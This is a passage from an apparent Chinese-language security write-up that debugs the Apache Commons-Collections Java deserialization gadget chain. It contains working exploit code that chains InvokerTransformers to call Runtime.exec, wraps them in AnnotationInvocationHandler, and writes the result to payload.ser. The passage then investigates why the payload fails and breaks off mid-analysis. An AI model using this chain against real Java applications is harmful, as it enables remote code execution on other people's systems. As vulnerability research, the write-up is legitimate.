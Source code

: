 ```
     Transformer[] transformers = new Transformer[]`{` 
         new ConstantTransformer(Runtime.class), 
         new InvokerTransformer("getMethod", new Class[] `{` String.class, Class[].class `}`, new Object[] `{`"getRuntime", new Class[0] `}`), 
         new InvokerTransformer("invoke", new Class[]`{`Object.class, Object[].class`}`, new Object[]`{`null, new Object[0]`}`), 
         new InvokerTransformer("exec", new Class[]`{`String.class`}`, new Object[]`{`"calc"`}`) 
     `}`; 
     Transformer chainedTransformer = new ChainedTransformer(transformers); 
 //只需要有一处调用 chainedTransformer 
     Map inMap = new HashMap(); 
     inMap.put("key", "value"); 
     Map outMap = TransformedMap.decorate(inMap, null, chainedTransformer); 
     Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); 
     Constructor ctor = cls.getDeclaredConstructor(new Class[] `{` Class.class, Map.class `}`); 
     ctor.setAccessible(true); 
     Object instance = ctor.newInstance(new Object[] `{` Retention.class, outMap `}`); 

     FileOutputStream fos = new FileOutputStream("payload.ser"); 
     ObjectOutputStream oos = new ObjectOutputStream(fos); 
     oos.writeObject(instance); 
     oos.flush(); 
     oos.close(); 

     FileInputStream fis = new FileInputStream("payload.ser"); 
     ObjectInputStream ois = new ObjectInputStream(fis); 
     // 模拟触发代码执行 
     Object newObj = ois.readObject(); 
     ois.close(); 
   `}` 
 `}`
```

没有弹出计算器，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015b8563da0d9fcaf9.png)

疑惑，于是调试一下，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t017aa8549135347fc7.png)

可以看到，var7==null，所以无法进入第一个if。其余的条件应该比较好满足，所以这里要解决就是var7的值的问题。

在先知的一篇文章（https://xz.aliyun.com/t/7031）里看到了问题的答案，果然是对Java的了解和理解不够深入。

问题出在innerMap.put(“key”, “value”);上，我们分析一下var7的产生过程，看看为什么是null，

[![](https://p4.ssl.qhimg.com/t010bcbc229855a9fab.png)](https://p4.ssl.qhimg.com/t010bcbc229855a9fab.png)

我们看var2的值，
